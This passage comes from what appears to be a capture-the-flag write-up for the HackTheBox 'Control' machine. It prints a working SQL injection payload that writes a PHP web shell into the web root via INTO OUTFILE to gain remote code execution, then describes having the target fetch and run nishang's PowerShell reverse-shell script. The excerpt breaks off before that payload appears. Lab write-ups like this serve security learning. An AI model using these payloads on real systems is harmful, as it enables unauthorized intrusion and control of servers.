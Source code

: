 ![test-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/test-25.png)


But if we try to retrieve the file from the web server it is there:

![present-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/present-26.png)


Nice!! 


From here, I write a simple PHP web shell using: `p' UNION SELECT '<?php+system($_GET["cmd"]); ?>',null,null,null,null,null INTO OUTFILE '/inetpub/wwwroot/htb.php' #`. Interacting with this file gets us RCE:

![rce-27](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/rce-27.png)


From here, it's just a matter of finding a working payload for a shell. At first, I tried to use `nishang`'s [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script. I hosted it via a python web server, and sent the target to retrieve and execute it using the following payload:

